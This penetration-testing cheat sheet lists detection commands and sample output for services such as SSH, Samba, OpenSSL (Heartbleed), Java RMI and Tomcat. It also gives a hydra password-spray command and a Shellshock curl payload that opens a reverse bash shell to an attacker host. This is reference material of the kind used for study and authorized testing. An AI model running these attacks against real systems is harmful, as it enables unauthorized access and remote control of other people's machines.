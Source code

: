 

## [[linux-hardening/linux-exploitation/password-spray|Password Spray Attack]]

**Description:** Test common passwords on multiple accounts to avoid lockouts.  
**Detection:**  
🔍 `nmap -p 22,25,139,445 <target-ip>`  
**Example Output:**  
🔑 `22/tcp open ssh`  
🔑 `25/tcp open smtp`  
🔑 `139/tcp open netbios-ssn`  
🔑 `445/tcp open microsoft-ds`

**Attack:**  
🔓 `hydra -L userlist.txt -P passwordlist.txt ssh://<target-ip>`

---

## [[Samba Exploitation]]

**Description:** Exploit Samba vulnerabilities for unauthorized access.  
**Detection:**  
🔍 `nmap -sV -p 139,445 <target-ip>`  
**Example Output:**  
🔑 `139/tcp open netbios-ssn samba 3.0.20`  
🔑 `445/tcp open microsoft-ds samba 3.0.20`

--- 
## [[Shellshock]]

**Description:** Exploit Bash vulnerability for remote code execution.  
**Detection:**  
🔍 `bash --version`  
**Example Output:**  
🔑 `GNU bash, version 4.2.25(1)-release`

**Test:**  
🔓 `curl -H 'User-Agent: () { :;}; echo; /bin/bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1' http://<target-ip>/cgi-bin/vulnerable-script`  
**Example Output:**  
🔑 `Connection to <target-ip> 4444 port [tcp/*] succeeded!`
---
## [[Heartbleed]]

**Description:** OpenSSL vulnerability exposing sensitive data.  
**Detection:**  
🔍 `nmap --script ssl-heartbleed -p 443 <target-ip>`  
**Example Output:**  
🔑 `443/tcp open ssl/https Apache httpd 2.4.7 | ssl-heartbleed: VULNERABLE | Heartbleed: YES`

🔍 `./testssl.sh --heartbleed <target-ip>`  
**Example Output:**  
🔑 `Testing <target-ip> for Heartbleed vulnerability Heartbleed found!`
---
## [[Java RMI Registry]]

**Description:** Remote code execution via insecure RMI registry.  
**Detection:**  
🔍 `nmap -p 1099 -sV <target-ip>`  
**Example Output:**  
🔑 `1099/tcp open java-rmi Unspecified Java RMI registry`
---
## [[../../network-services-pentesting/pentesting-web/tomcat|Tomcat]]

**Description:** Exploit Tomcat vulnerabilities for unauthorized access.  
**Detection:**  
🔍 `nmap -p 8080 -sV <target-ip>`  
**Example Output:**  
🔑 `8080/tcp open http Apache Tomcat/Coyote JSP engine 7.0.88`

---